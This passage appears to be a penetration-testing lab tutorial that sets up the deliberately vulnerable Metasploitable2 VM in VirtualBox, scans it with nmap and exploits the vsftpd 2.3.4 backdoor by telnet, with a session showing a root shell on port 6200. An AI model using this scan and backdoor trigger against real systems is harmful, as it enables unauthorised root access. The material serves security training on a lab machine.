 \documentclass[11pt,a4paper]{article}
\begin{document}
Now you will need to import it in virtual box.

Open virtualbox and create a new virtual machine, choose no iso and set
type to \texttt{Ubuntu\ (64-bit)}. Now, give some resources and go to
disk creation and choose \texttt{Use\ an\ existing\ disk}. Add the
\texttt{.vmdk} file and start the VM.

More details about metasploitable2 can be found
\href{https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/}{here}

\subsubsection{Exploit the machine}\label{exploit-the-machine}

\paragraph{Scan the machine}\label{scan-the-machine}

First of all, scan the target machine to find out what services and
ports are available. You can use nmap command:

\begin{verbatim}
sudo nmap -v -sT -sV -O <ip-target>
\end{verbatim}

\paragraph{Exploit FTP}\label{exploit-ftp}

On port 21, Metasploitable2 runs vsftpd, a popular FTP server. This
particular version contains a backdoor that was slipped into the source
code by an unknown intruder. The backdoor was quickly identified and
removed, but not before quite a few people downloaded it. If a username
is sent that ends in the sequence :) {[} a happy face {]}, the
backdoored version will open a listening shell on port 6200. We can
demonstrate this with telnet or use the Metasploit Framework module to
automatically exploit it:

\begin{verbatim}
root@ubuntu:~# telnet 192.168.99.131 21
Trying 192.168.99.131...
Connected to 192.168.99.131.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
user backdoored:)
331 Please specify the password.
pass invalid
^]
telnet> quit
Connection closed.
                       
root@ubuntu:~# telnet 192.168.99.131 6200
Trying 192.168.99.131...
Connected to 192.168.99.131.
Escape character is '^]'.
id;
uid=0(root) gid=0(root)
\end{verbatim}
\end{document}
